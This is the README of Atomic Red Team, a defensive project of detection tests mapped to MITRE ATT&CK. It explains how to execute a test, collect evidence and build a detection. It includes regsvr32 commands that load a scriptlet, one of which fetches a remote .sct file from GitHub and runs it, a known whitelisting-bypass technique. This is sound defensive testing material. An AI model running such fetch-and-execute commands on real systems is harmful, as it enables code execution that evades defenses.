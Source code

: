 # Atomic Red Team

Small and highly portable detection tests mapped to the [Mitre ATT&CK Framework.](https://attack.mitre.org/wiki/Main_Page)

## How to use Atomic Red Team

Our Atomic Red Team tests are small, highly portable detection tests mapped to the MITRE ATT&CK Framework. Each test is designed to map back to a particular tactic. We hope that this gives defenders a highly actionable way to immediately start testing their defenses against a broad spectrum of attacks.

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision, and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

There are three phases to the testing framework:

![Phases](https://www.redcanary.com/wp-content/uploads/image2-5.png)

### Phase 1: Execute Test

This particular test is fairly easy to exercise, since the tool is default on all Windows workstations.

The details of this test case are [here](Windows/Execution/Regsvr32.md).

Two methods are provided to perform the Atomic Test:

#### Local

For a local simulation use the provided .sct file:

    regsvr32.exe /s /u /i:file.sct scrobj.dll

#### Remote

For a remote simulation you will need a remotely accessible server to grab/download this file, or use gist:

    regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/RegSvr32.sct scrobj.dll

### Phase 2: Collect Evidence

What does your security solution observe? You may see a file modification in the user’s profile. You may detect network connections made by regsvr32.exe to an external IP. There may be an entry in the proxy logs. You may observe the scrobj.dll loading on Windows. Or, you might not observe any behavior on the endpoint or network. This is why we test! To identify visibility gaps and determine where improvements need to be made.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

### Phase 3: Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe, you are going to be digging out from a mountain of false positives. But if you write it too narrow and it only detects regsvr32.exe with the exact command line “/s /u /i” then all an attacker has to do is slightly modify the command line to evade your detection.

### Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/metrics/HuntTeam_HeatMap.xlsx) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)


## Mitre ATT&CK Matrix

We broke the repository into three working matrices:

[Windows MITRE ATT&CK Matrix](Windows/Windows.md)

[Mac MITRE ATT&CK Matrix](Mac/Mac.md)

[Linux MITRE ATT&CK Matrix](Linux/Linux.md)

#### We did not create the MITRE ATT&CK Framework, we just think it is awesome and extensive.

#### ATT&CK and ATT&CK Matrix are trademarks of The MITRE Corporation
